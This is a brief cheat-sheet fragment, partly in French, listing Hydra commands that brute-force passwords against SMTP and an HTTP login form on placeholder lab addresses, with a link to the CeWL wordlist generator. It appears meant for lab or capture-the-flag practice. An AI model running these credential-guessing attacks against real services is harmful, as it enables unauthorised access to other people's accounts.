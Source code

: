 ```
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
```

Pages de connexion HTTP

```
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

SMTP 

```
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
```

https://github.com/digininja/CeWL ( generer une liste de mot passe )